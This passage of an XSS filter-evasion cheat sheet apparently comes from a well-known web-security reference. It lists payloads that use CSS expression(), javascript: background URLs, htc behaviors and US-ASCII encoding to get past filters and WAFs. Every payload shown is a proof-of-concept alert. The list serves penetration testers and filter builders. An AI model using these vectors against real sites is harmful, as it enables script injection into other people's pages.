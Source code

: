 ```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

(Created by Roman Ivanov)

### IMG STYLE with Expressions

This is really a hybrid of the last two XSS vectors, but it really does show how hard STYLE tags can be to parse apart. This can send IE into a loop:

```html
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### STYLE Tag using Background-image

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### STYLE Tag using Background

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### Anonymous HTML with STYLE Attribute

The IE rendering engine doesn't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```

### Local htc File

This is a little different than the last two XSS vectors because it uses an .htc file that must be on the same server as the XSS vector. This example file works by pulling in the JavaScript and running it as part of the style attribute:

```html
<XSS STYLE="behavior: url(xss.htc);">
```

### US-ASCII Encoding

This attack uses malformed ASCII encoding with 7 bits instead of 8. This XSS method may bypass many content filters but it only works if the host transmits in US-ASCII encoding or if you set the encoding yourself. This is more useful against web application firewall (WAF) XSS evasion than it is server side filter evasion. Apache Tomcat is the only known server that by default still transmits in US-ASCII encoding.

```js
¼script¾alert(¢XSS¢)¼/script¾
```
